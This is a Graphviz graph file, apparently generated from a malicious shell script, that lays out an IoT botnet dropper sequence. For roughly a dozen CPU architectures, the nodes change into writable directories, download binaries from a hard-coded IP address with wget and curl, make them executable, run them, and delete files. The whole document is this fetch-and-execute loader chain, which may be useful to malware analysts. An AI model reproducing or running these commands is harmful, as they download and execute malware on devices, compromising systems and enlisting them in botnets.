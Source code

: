 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://191.96.112.116/k.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://191.96.112.116/k.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x k.mips "];
14 -> 16 [label=";,"];
16 [label="./k.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf n "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://191.96.112.116/k.mipsel "];
30 -> 32 [label=";,"];
32 [label="curl -O http://191.96.112.116/k.mipsel "];
32 -> 34 [label=";,"];
34 [label="chmod +x k.mipsel "];
34 -> 36 [label=";,"];
36 [label="./k.mipsel "];
36 -> 38 [label=";,"];
38 [label="rm -rf s "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://191.96.112.116/k.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://191.96.112.116/k.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x k.sh4 "];
54 -> 56 [label=";,"];
56 [label="./k.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf o "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://191.96.112.116/k.x86_32 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://191.96.112.116/k.x86_32 "];
72 -> 74 [label=";,"];
74 [label="chmod +x k.x86_32 "];
74 -> 76 [label=";,"];
76 [label="./k.x86_32 "];
76 -> 78 [label=";,"];
78 [label="rm -rf b "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://191.96.112.116/k.arm7 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://191.96.112.116/k.arm7 "];
92 -> 94 [label=";,"];
94 [label="chmod +x k.arm7 "];
94 -> 96 [label=";,"];
96 [label="./k.arm7 "];
96 -> 98 [label=";,"];
98 [label="rm -rf t "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://191.96.112.116/k.x86 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://191.96.112.116/k.x86 "];
112 -> 114 [label=";,"];
114 [label="chmod +x k.x86 "];
114 -> 116 [label=";,"];
116 [label="./k.x86 "];
116 -> 118 [label=";,"];
118 [label="rm -rf w "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://191.96.112.116/k.ppc "];
130 -> 132 [label=";,"];
132 [label="curl -O http://191.96.112.116/k.ppc "];
132 -> 134 [label=";,"];
134 [label="chmod +x k.ppc "];
134 -> 136 [label=";,"];
136 [label="./k.ppc "];
136 -> 138 [label=";,"];
138 [label="rm -rf c "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://191.96.112.116/f "];
150 -> 152 [label=";,"];
152 [label="curl -O http://191.96.112.116/f "];
152 -> 154 [label=";,"];
154 [label="chmod +x f "];
154 -> 156 [label=";,"];
156 [label="./f "];
156 -> 158 [label=";,"];
158 [label="rm -rf f "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://191.96.112.116/k.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://191.96.112.116/k.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x k.m68k "];
174 -> 176 [label=";,"];
176 [label="./k.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf p "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://191.96.112.116/k "];
190 -> 192 [label=";,"];
192 [label="curl -O http://191.96.112.116/k "];
192 -> 194 [label=";,"];
194 [label="chmod +x k "];
194 -> 196 [label=";,"];
196 [label="./k "];
196 -> 198 [label=";,"];
198 [label="rm -rf k "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://191.96.112.116/h "];
210 -> 212 [label=";,"];
212 [label="curl -O http://191.96.112.116/h "];
212 -> 214 [label=";,"];
214 [label="chmod +x h "];
214 -> 216 [label=";,"];
216 [label="./h "];
216 -> 218 [label=";,"];
218 [label="rm -rf h "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://191.96.112.116/a "];
230 -> 232 [label=";,"];
232 [label="curl -O http://191.96.112.116/a "];
232 -> 234 [label=";,"];
234 [label="chmod +x a "];
234 -> 236 [label=";,"];
236 [label="./a "];
236 -> 238 [label=";,"];
238 [label="rm -rf a "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://191.96.112.116/z "];
250 -> 252 [label=";,"];
252 [label="curl -O http://191.96.112.116/z "];
252 -> 254 [label=";,"];
254 [label="chmod +x z "];
254 -> 256 [label=";,"];
256 [label="./z "];
256 -> 257 [label=";,"];
}

